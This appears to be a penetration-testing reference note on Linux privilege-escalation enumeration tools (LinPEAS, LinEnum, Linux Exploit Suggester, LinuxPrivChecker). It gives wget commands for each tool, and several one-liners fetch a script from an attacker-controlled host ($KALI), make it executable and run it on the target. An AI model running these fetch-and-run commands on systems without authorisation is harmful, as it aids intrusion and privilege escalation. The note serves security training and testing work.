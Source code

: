 ![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### LinPEAS
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

```bash - kali
wget http://$KALI/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh -a > linpeas.txt &
```

```bash - kali
less -r linpeas.txt
```

#### LinEnum
```bash - linux
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```bash - linux
wget http://$KALI/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh > LinEnum.txt &
```

```bash - kali
less -r LinEnum.txt
```

#### Linux Exploit Suggester
```bash - linux
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

```bash - linux
wget http://$KALI/linux-exploit-suggester.sh && chmod +x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh > linux-exploit-suggester.txt &
```

```bash - kali
less -r linux-exploit-suggester.txt
```

#### LinuxPrivChecker
```bash - linux
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

